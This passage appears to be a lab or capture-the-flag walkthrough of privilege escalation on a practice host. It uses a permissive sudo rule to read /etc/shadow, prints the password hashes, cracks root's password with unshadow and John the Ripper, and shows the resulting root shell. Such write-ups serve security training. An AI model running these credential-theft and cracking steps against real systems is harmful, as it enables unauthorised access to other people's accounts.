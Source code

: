 * List commands which could by executed by sudo
```
aadams@slax:~$ sudo -l
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*
```

## __Privilege escalation__
* Cat /etc/shadow
```
aadams@slax:~$ sudo cat /etc/shadow
root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
aadams:$1$6cP/ya8m$2CNF8mE.ONyQipxlwjp8P1:13550:0:99999:7:::
bbanter:$1$hl312g8m$Cf9v9OoRN062STzYiWDTh1:13550:0:99999:7:::
ccoffee:$1$nsHnABm3$OHraCR9ro.idCMtEiFPPA.:13550:0:99999:7:::
```

* Cracking password
```
root@BOEING:# vi passwd
root@BOEING:# vi shadow
root@BOEING:# unshadow passwd shadow > unshadow
```

I removed other user from unshadow file and crack password for root user only
```
root@BOEING:# john --wordlist=/usr/share/wordlists/rockyou.txt unshadow_root

...
tarot            (root)
...

aadams@slax:~$ su
Password: *****
root@slax:/home/aadams# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy)
```
